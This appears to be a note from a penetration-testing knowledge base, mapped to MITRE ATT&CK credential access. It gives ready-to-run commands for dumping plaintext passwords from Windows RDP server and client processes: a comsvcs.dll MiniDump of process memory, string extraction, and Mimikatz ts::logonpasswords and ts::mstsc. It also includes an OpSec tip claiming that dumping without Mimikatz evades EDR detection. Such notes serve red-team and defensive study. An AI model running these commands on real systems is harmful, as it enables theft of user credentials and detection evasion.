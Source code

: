 ```yaml
---
title: RDP Dump
---
```


[[notes/mitre-attack/credential-access]] on [[notes/windows/index]] from [[notes/network/rdp]] processes.

Dump plain text passwords from RDP server processes.

=== "builtin"
    Find RDP processes holding credentials.

    ~~~ bat
    tasklist.exe /m:rdpcorets.dll
    ~~~

    Dump process memory.

    ~~~ bat
    rundll32.exe comsvcs.dll,MiniDump %PID% .\%COMPUTERNAME%.log full
    ~~~

    Extract plain passwords.

    ~~~ bash
    strings -el ./$COMPUTERNAME.log | grep -F -C3 -e '\\?\SWD#RemoteDisplayEnum#RdpIdd_IndirectDisplay&SessionId' -e $USERNAME
    ~~~

=== "[[notes/tools/mimikatz]]"
    ~~~ bat
    .\mimikatz.exe privilege::debug ts::logonpasswords exit
    ~~~

Dump plain text passwords from RDP client processes.

=== "[[notes/tools/mimikatz]]"
    ~~~ bat
    .\mimikatz.exe privilege::debug ts::mstsc exit
    ~~~

> **OpSec:** Dumping regular processes without Mimikatz should not be detected by an EDR.

References:

- [ppn.snovvcrash.rocks/pentest/infrastructure/ad/credentials-dump/from-memory/svchost-exe](https://ppn.snovvcrash.rocks/pentest/infrastructure/ad/credentials-dump/from-memory/svchost-exe)
